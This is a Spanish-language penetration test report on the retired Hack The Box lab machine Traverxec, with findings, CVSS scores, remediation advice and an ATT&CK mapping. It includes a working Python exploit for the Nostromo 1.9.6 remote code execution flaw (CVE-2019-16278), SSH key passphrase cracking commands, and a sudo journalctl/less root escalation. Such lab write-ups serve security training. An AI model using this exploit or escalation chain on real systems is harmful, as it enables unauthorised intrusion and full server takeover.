

# Informe de Prueba de Penetración — Traverxec

|                        |                                                                  |
| ---------------------- | ---------------------------------------------------------------- |
| **ID de informe**      | HO-0016-00                                                       |
| **Objetivo**           | Traverxec (`10.129.89.27`)                                       |
| **Plataforma**         | Hack The Box — máquina retirada                                  |
| **Tipo de prueba**     | Caja negra (black box)                                           |
| **Fecha de ejecución** | 2026-10-23                                                       |
| **Autor**              | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión**            | 1.0                                                              |
| **Clasificación**      | Público — uso educativo                                          |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha      | Descripción     |
| ------- | ---------- | --------------- |
| 1.0     | 2026-10-23 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Traverxec** simulando un atacante externo sin
credenciales ni conocimiento previo del entorno, con el fin de obtener el máximo nivel
de privilegios posible.

### 1.2 Resultado

> El servidor publicaba en Internet un servicio web con una versión antigua y conocida
> por ser vulnerable. Ese fallo permitió ejecutar órdenes en el equipo sin necesidad de
> usuario ni contraseña. A partir de ahí se encontró una copia de seguridad guardada en
> el propio servidor que contenía la llave de acceso personal de un empleado, protegida
> por una contraseña débil que se pudo descifrar. Finalmente, un permiso mal concedido
> permitió pasar de ese empleado al nivel de administrador. En conjunto, un atacante real
> habría obtenido control total del equipo y de toda la información alojada en él.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
| :-----: | :--: | :---: | :--: | :---------: |
|    1    |  2   |   0   |  0   |      0      |

### 1.4 Resumen de hallazgos

| ID                                                                                               | Hallazgo                                                                 | Severidad | CVSS |
| ------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------ | --------- | ---- |
| [HO-0016-01](#ho-0016-01--ejecución-remota-de-código-en-nostromo-196-cve-2019-16278)             | Ejecución remota de código en Nostromo 1.9.6 (CVE-2019-16278)            | Crítica   | 9.8  |
| [HO-0016-02](#ho-0016-02--clave-ssh-privada-expuesta-en-respaldo-accesible-con-passphrase-débil) | Clave SSH privada expuesta en respaldo accesible con _passphrase_ débil  | Alta      | 7.8  |
| [HO-0016-03](#ho-0016-03--escalada-de-privilegios-por-sudo-sobre-journalctl-paginador-less)      | Escalada de privilegios por `sudo` sobre `journalctl` + paginador `less` | Alta      | 7.8  |

### 1.5 Recomendaciones prioritarias

1. **Actualizar o reemplazar Nostromo.** La versión 1.9.6 tiene una vulnerabilidad pública
   de ejecución remota de código; debe migrarse a una versión corregida o a un servidor
   web mantenido.
2. **Retirar los respaldos con material sensible del árbol web** y proteger las llaves SSH
   con _passphrases_ robustas, rotando la llave expuesta.
3. **Aplicar mínimo privilegio en `sudo`**: eliminar la regla que permite ejecutar
   `journalctl` como root y, en general, evitar binarios que invoquen paginadores u
   otros procesos interactivos.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo    | Dirección      | Incluido |
| --------- | -------------- | :------: |
| Traverxec | `10.129.89.27` |    Sí    |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente   | Detalle                                                               |
| ------------ | --------------------------------------------------------------------- |
| Sistema      | Linux (kernel 7.2.11-zen1-1-zen)                                      |
| Conexión     | VPN de Hack The Box                                                   |
| Herramientas | nmap, searchsploit, python3, tar/gzip, ssh2john, John the Ripper, ssh |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** según la tabla de criterios estándar
(Crítica 9.0–10.0, Alta 7.0–8.9, Media 4.0–6.9, Baja 0.1–3.9, Informativa 0.0).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

Descubrimiento de puertos abiertos en todo el rango TCP:

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 10.129.89.27
```

Detección de servicios y versiones sobre los puertos abiertos:

```bash
nmap -p22,80 -sVC -Pn -n -T4 -oN detallado.txt 10.129.89.27
```

| Puerto | Servicio | Versión                         | Observaciones                                                   |
| ------ | -------- | ------------------------------- | --------------------------------------------------------------- |
| 22/tcp | SSH      | OpenSSH 7.9p1 Debian 10+deb10u1 | Sin credenciales iniciales; se descarta como vector de entrada. |
| 80/tcp | HTTP     | **nostromo 1.9.6**              | Título `TRAVERXEC`. Principal superficie de ataque.             |

El `ttl=63` observado en el `ping` es coherente con un sistema **Linux** (TTL base 64),
lo que se confirma con el banner de OpenSSH _Debian 10_ (buster).

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El servicio HTTP expone **Nostromo (nhttpd) 1.9.6**, un servidor web ligero poco común.
La identificación de la versión fue el dato decisivo: Nostromo 1.9.6 es vulnerable a
**CVE-2019-16278**, una falla de _path traversal_ en el manejo de peticiones que deriva
en ejecución remota de código. Al disponer de un vector directo y no autenticado, no fue
necesario realizar fuzzing de directorios ni enumeración web adicional.

```bash
searchsploit nostromo
# -> Nostromo 1.9.6 - Remote Code Execution  (exploits/multiple/remote/47837.py)
searchsploit -m 47837.py
```

### 3.4 Acceso inicial

El exploit público para CVE-2019-16278 permitió ejecutar comandos como el usuario de
servicio `www-data` y obtener una _shell_ interactiva. Ver **[HO-0016-01](#ho-0016-01--ejecución-remota-de-código-en-nostromo-196-cve-2019-16278)**.

### 3.5 Movimiento lateral

Con la _shell_ de `www-data` se leyó la configuración de Nostromo en
`/var/nostromo/conf/nhttpd.conf`, que reveló tres elementos clave:

```conf
htpasswd        /var/nostromo/conf/.htpasswd
homedirs        /home
homedirs_public public_www
```

- El fichero `.htpasswd` contenía el hash de la contraseña de **david** (`$1$`, MD5-crypt).
  Se extrajo pero **no resultó útil** para esta cadena.
- La directiva `homedirs_public public_www` indica que Nostromo sirve el subdirectorio
  `public_www` del _home_ de cada usuario. En `/home/david/public_www/protected-file-area/`
  se encontró el respaldo **`backup-ssh-identity.tgz`**, que incluía una copia del
  directorio `.ssh` de david con su **clave privada SSH** (cifrada con _passphrase_).

La _passphrase_ de la clave era débil y se recuperó sin esfuerzo, permitiendo iniciar
sesión por SSH como **david**. Ver **[HO-0016-02](#ho-0016-02--clave-ssh-privada-expuesta-en-respaldo-accesible-con-passphrase-débil)**.

### 3.6 Escalada de privilegios

Ya como david, en su _home_ se halló el script `bin/server-stats.sh`, que invocaba
`sudo journalctl` para mostrar los últimos registros del servicio de Nostromo. Esa regla
`sudo` (ejecutable como root) combinada con el paginador `less` de `journalctl` permitió
obtener una _shell_ como **root**. Ver **[HO-0016-03](#ho-0016-03--escalada-de-privilegios-por-sudo-sobre-journalctl-paginador-less)**.

---

## 4. Hallazgos técnicos

### HO-0016-01 — Ejecución remota de código en Nostromo 1.9.6 (CVE-2019-16278)

|                         |                                                                                                            |
| ----------------------- | ---------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Crítica                                                                                                    |
| **CVSS v3.1**           | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                       |
| **CWE**                 | [CWE-22](https://cwe.mitre.org/data/definitions/22.html) — Limitación indebida de rutas ("Path Traversal") |
| **CVE**                 | [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)                                          |
| **Componente afectado** | `http://10.129.89.27/` — servidor `nostromo 1.9.6` (nhttpd)                                                |
| **Estado**              | Explotada                                                                                                  |

> **Justificación del vector:** la falla es explotable por red (`AV:N`), sin autenticación
> (`PR:N`) ni interacción del usuario (`UI:N`), con baja complejidad (`AC:L`), y compromete
> por completo confidencialidad, integridad y disponibilidad del servicio (`C:H/I:H/A:H`).
> Coincide con la puntuación base 9.8 publicada en NVD.

#### Descripción

Nostromo (nhttpd) 1.9.6 no filtra adecuadamente secuencias de salto de directorio
codificadas (`.%0d./`) en la ruta de la petición. Esto permite escapar del `docroot` y
alcanzar binarios del sistema como `/bin/sh`, de modo que el cuerpo de una petición `POST`
se interpreta y ejecuta como comandos del sistema operativo. La **causa raíz** es la
combinación de una versión obsoleta con un saneamiento de rutas defectuoso frente a
secuencias de retorno de carro codificadas.

#### Prueba de concepto

**Paso 1.** Verificar la versión del servicio (Anexo A) y localizar el exploit:

```bash
searchsploit nostromo        # Nostromo 1.9.6 - Remote Code Execution (47837.py)
searchsploit -m 47837.py
```

**Paso 2.** El exploit original (`47837.py`) estaba escrito para Python 2 y fallaba en
Python 3 por mezclar `str` y `bytes` (al enviar el _payload_ y al concatenar la respuesta).
Se adaptó codificando el _payload_ antes de enviarlo (`payload.encode()`) y decodificando la
respuesta (`response.decode(errors='replace')`). La versión corregida se incluye en el
[Anexo B](#b-scripts-y-exploits) como `cve2019_16278.py`.

**Paso 3.** Ejecutar comandos de forma remota confirmando la identidad del proceso:

```bash
python3 cve2019_16278.py 10.129.89.27 80 "id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Paso 4.** Establecer una _shell_ interactiva (p. ej. _reverse shell_ o `script`/TTY) como
`www-data` para continuar la enumeración local.

#### Impacto

Ejecución de código arbitrario sin autenticación con los privilegios del servicio web.
Permite leer configuración y ficheros del servidor, pivotar hacia otros usuarios y usar el
host como punto de apoyo. Compromete confidencialidad, integridad y disponibilidad.

#### Remediación

- **Corto plazo:** restringir el acceso al servicio y aplicar el parche del proveedor;
  si no es viable, deshabilitar Nostromo.
- **Largo plazo:** migrar a un servidor web mantenido y con soporte, e incorporar la
  gestión de versiones/vulnerabilidades al ciclo de actualización.

#### Referencias

- [NVD — CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)
- [Exploit-DB 47837 — Nostromo 1.9.6 RCE](https://www.exploit-db.com/exploits/47837)
- [CWE-22 — Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

### HO-0016-02 — Clave SSH privada expuesta en respaldo accesible con _passphrase_ débil

|                         |                                                                                                        |
| ----------------------- | ------------------------------------------------------------------------------------------------------ |
| **Severidad**           | Alta                                                                                                   |
| **CVSS v3.1**           | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                   |
| **CWE**                 | [CWE-522](https://cwe.mitre.org/data/definitions/522.html) — Credenciales insuficientemente protegidas |
| **CVE**                 | —                                                                                                      |
| **Componente afectado** | `/home/david/public_www/protected-file-area/backup-ssh-identity.tgz`                                   |
| **Estado**              | Explotada                                                                                              |

> **Justificación del vector:** requiere el acceso local previo como `www-data` (`AV:L`,
> `PR:L`), es sencillo de aprovechar (`AC:L`) y no requiere interacción (`UI:N`). El
> resultado es la toma completa de la cuenta de david (`C:H/I:H/A:H`).

#### Descripción

La configuración de Nostromo (`homedirs_public public_www`) publica el subdirectorio
`public_www` de cada usuario. Dentro del de david se almacenó un respaldo
(`backup-ssh-identity.tgz`) que contenía su directorio `.ssh` completo, incluida la
**clave privada** `id_rsa`. Aunque la clave estaba cifrada, su _passphrase_ era débil y
se recuperó mediante _cracking_ offline. La **causa raíz** es el almacenamiento de material
criptográfico sensible dentro del árbol servido por la web, protegido por una _passphrase_
insuficiente.

#### Prueba de concepto

**Paso 1.** Descargar/leer el respaldo desde la _shell_ de `www-data` y descomprimirlo:

```bash
tar xzvf backup-ssh-identity.tgz
# home/david/.ssh/{id_rsa, id_rsa.pub, authorized_keys}
```

**Paso 2.** Convertir la clave a formato _hash_ y romper la _passphrase_ offline:

```bash
ssh2john id_rsa > hash_id_rsa.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa.txt
john --show hash_id_rsa.txt
```

**Paso 3.** Iniciar sesión como david con la clave y su _passphrase_:

```bash
chmod 600 id_rsa
ssh -i id_rsa david@10.129.89.27
```

#### Impacto

Toma de control de la cuenta de usuario david, con acceso a sus ficheros (incluida la flag
de usuario) y a su contexto de `sudo`, habilitando la posterior escalada a root.

#### Remediación

- **Corto plazo:** retirar el respaldo del árbol web y **rotar** (revocar y regenerar) la
  clave SSH expuesta.
- **Largo plazo:** proteger las claves con _passphrases_ robustas, no almacenar respaldos
  con secretos en directorios servidos por aplicaciones, y cifrar/segregar las copias de
  seguridad.

#### Referencias

- [CWE-522 — Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [GTFOBins — ssh2john / John the Ripper](https://www.openwall.com/john/)

---

### HO-0016-03 — Escalada de privilegios por `sudo` sobre `journalctl` + paginador `less`

|                         |                                                                                                     |
| ----------------------- | --------------------------------------------------------------------------------------------------- |
| **Severidad**           | Alta                                                                                                |
| **CVSS v3.1**           | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                |
| **CWE**                 | [CWE-250](https://cwe.mitre.org/data/definitions/250.html) — Ejecución con privilegios innecesarios |
| **CVE**                 | —                                                                                                   |
| **Componente afectado** | Regla `sudo`: `/usr/bin/journalctl -n5 -unostromo.service`                                          |
| **Estado**              | Explotada                                                                                           |

> **Justificación del vector:** requiere sesión local como david (`AV:L`, `PR:L`), es
> trivial de explotar (`AC:L`) y entrega una _shell_ root con control total del host
> (`C:H/I:H/A:H`).

#### Descripción

El usuario david puede ejecutar `journalctl` como **root** sin contraseña. Cuando la
salida de `journalctl` no cabe en la pantalla, el programa la muestra a través del
paginador **`less`**. `less` permite ejecutar comandos del sistema desde su modo
interactivo (`!comando`); al heredar los privilegios de root de `journalctl`, esto deriva
en una _shell_ root. La **causa raíz** es conceder `sudo` sobre un binario que invoca un
paginador interactivo (técnica documentada en GTFOBins), violando el principio de mínimo
privilegio.

#### Prueba de concepto

**Paso 1.** Identificar el permiso (observado en `~/bin/server-stats.sh`):

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

**Paso 2.** Reducir la ventana de la terminal para forzar la paginación con `less`
(si la salida cabe en pantalla, `less` no se invoca).

**Paso 3.** Desde el prompt de `less`, abrir una _shell_ que hereda privilegios de root:

```text
!/bin/bash
# id -> uid=0(root)
```

#### Impacto

Obtención de privilegios de root: control total del sistema, lectura/escritura de cualquier
fichero (incluida la flag de root) y persistencia.

#### Remediación

- **Corto plazo:** eliminar la regla `sudo` que permite ejecutar `journalctl` como root, o
  restringirla con `sudo` sin paginador (`SYSTEMD_PAGER=cat` / `--no-pager`).
- **Largo plazo:** revisar todas las reglas `sudo` frente a GTFOBins y aplicar mínimo
  privilegio, evitando binarios que invoquen procesos interactivos.

#### Referencias

- [GTFOBins — journalctl](https://gtfobins.github.io/gtfobins/journalctl/)
- [GTFOBins — less](https://gtfobins.github.io/gtfobins/less/)
- [CWE-250 — Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel         | Usuario    | Método     | Prueba                                        |
| ------------- | ---------- | ---------- | --------------------------------------------- |
| Servicio      | `www-data` | HO-0016-01 | Shell vía RCE (sin flag)                      |
| Usuario       | `david`    | HO-0016-02 | `user.txt` — `eec858a3************************` |
| Administrador | `root`     | HO-0016-03 | `root.txt` — `cc30e1f6************************` |

> Las flags se muestran parcialmente censuradas (primeros caracteres + asteriscos); nunca
> se registra su valor completo.

### 5.2 Información sensible expuesta

| Tipo               | Ubicación                                            | Observación                                                                   |
| ------------------ | ---------------------------------------------------- | ----------------------------------------------------------------------------- |
| Configuración      | `/var/nostromo/conf/nhttpd.conf`                     | Revela `.htpasswd`, `homedirs` y `homedirs_public`.                           |
| Hash de contraseña | `/var/nostromo/conf/.htpasswd`                       | `david:$1$e7NfNpNi$A6nCwOTqr...` (MD5-crypt). No resultó útil en esta cadena. |
| Clave privada SSH  | `backup-ssh-identity.tgz` → `home/david/.ssh/id_rsa` | Cifrada con _passphrase_ débil (recuperable offline).                         |

### 5.3 Limpieza

| Artefacto                       | Ubicación                    | Estado                                  |
| ------------------------------- | ---------------------------- | --------------------------------------- |
| Respaldo descomprimido / claves | Equipo del auditor (`loot/`) | Conservado como evidencia (laboratorio) |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total encadenó tres fallos de postura de seguridad: **(1)** un servicio web
obsoleto y vulnerable expuesto sin mitigaciones (gestión de parches), **(2)** una mala
gestión de secretos —una clave SSH respaldada dentro del árbol web y protegida por una
_passphrase_ débil—, y **(3)** una regla `sudo` excesiva sobre un binario que invoca un
paginador interactivo (mínimo privilegio). Ninguno de los tres por separado habría bastado
para la máxima gravedad, pero su encadenamiento llevó de un atacante anónimo en Internet a
`root`. Corregir el primer eslabón (actualizar Nostromo) rompe la cadena de entrada; corregir
el tercero elimina el salto final a administrador.

### 6.2 Aprendizajes del auditor

- **Técnica aplicada:** explotación de CVE-2019-16278 (path traversal → RCE) y escalada vía
  GTFOBins (`journalctl` + `less`).
- **Dónde se trabó:** el exploit público `47837.py` fallaba en Python 3 por mezclar `str` y
  `bytes`; se resolvió codificando el _payload_ y decodificando la respuesta.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — descubrimiento de puertos (puertos.txt)</summary>

```text
# Nmap 7.992 scan initiated as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 10.129.89.27
Nmap scan report for 10.129.89.27
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

</details>

<details>
<summary>nmap — servicios y versiones (detallado.txt)</summary>

```text
# Nmap 7.992 scan initiated as: nmap -p22,80 -sVC -Pn -n -T4 -oN detallado.txt 10.129.89.27
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

### B. Scripts y exploits

<details>
<summary>cve2019_16278.py — exploit adaptado a Python 3 (fragmento)</summary>

```python
#!/usr/bin/env python3
# nostromo 1.9.6 - Remote Code Execution (CVE-2019-16278)
# Adaptación a Python 3: payload.encode() + response.decode()
import sys, socket

def connect(soc):
    response = b""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except Exception as e:
        print(f'[!] Error al recibir datos: {e}')
    return response.decode(errors='replace')

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload.encode())
    print(connect(soc))

if __name__ == "__main__":
    cve(sys.argv[1], sys.argv[2], sys.argv[3])
```

> Script completo en [`scripts/cve2019_16278.py`](./scripts/cve2019_16278.py).
> Original de Exploit-DB en [`scripts/47837.py`](./scripts/47837.py).

</details>

### C. Mapeo MITRE ATT&CK

| Táctica              | Técnica                                                  | ID                                                          |
| -------------------- | -------------------------------------------------------- | ----------------------------------------------------------- |
| Initial Access       | Exploit Public-Facing Application                        | [T1190](https://attack.mitre.org/techniques/T1190/)         |
| Execution            | Command and Scripting Interpreter: Unix Shell            | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) |
| Credential Access    | Unsecured Credentials: Private Keys                      | [T1552.004](https://attack.mitre.org/techniques/T1552/004/) |
| Credential Access    | Brute Force: Password Cracking                           | [T1110.002](https://attack.mitre.org/techniques/T1110/002/) |
| Lateral Movement     | Remote Services: SSH                                     | [T1021.004](https://attack.mitre.org/techniques/T1021/004/) |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) |

### D. Referencias generales

- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [GTFOBins](https://gtfobins.github.io/)
